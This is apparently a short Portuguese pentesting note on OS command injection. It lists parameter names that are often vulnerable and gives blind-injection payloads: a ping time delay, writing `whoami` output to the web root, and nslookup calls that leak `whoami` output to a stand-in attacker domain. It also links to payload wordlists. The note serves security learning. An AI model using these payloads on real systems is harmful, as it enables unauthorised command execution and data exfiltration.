 #attack #attack/web #web

**Shell injection** ou **command injection** permite o hacker enviar comandos de sistema no servidor que está rodando a aplicação.

O comum deste ataque é injetar payloads em parâmetros:

```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```

## Blind CI

Algumas aplicações não te da retorno do ataque realizado, mas ainda podem ser exploradas. 

### Time relays

Uma das formas de explorar isso é através de *time delays*.

Você pode enviar comandos com atraso de tempo com o `ping` pois é possível especificar o número de pacotes ICMP que vão ser enviados.

```sh
& ping -c 10 127.0.0.1 &
```

### Redirecionar output

Outro teste é redirecionar o output para o caminho raiz da aplicação web. Por exemplo, deduzindo que a aplicação está rodando em `/var/www/html:

```sh
& whoami > /var/www/html/whoami.txt &
```

### Técnicas out-of-band

Vocẽ pode enviar comandos que realizem uma interação de rede fora de banda e monitorar isso:

```bash
& nslookup kgji2ohoyw.web-attacker.com &
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

## Payloads

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection/Intruder

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt

## Referências

https://portswigger.net/web-security/os-command-injection
https://book.hacktricks.xyz/pentesting-web/command-injection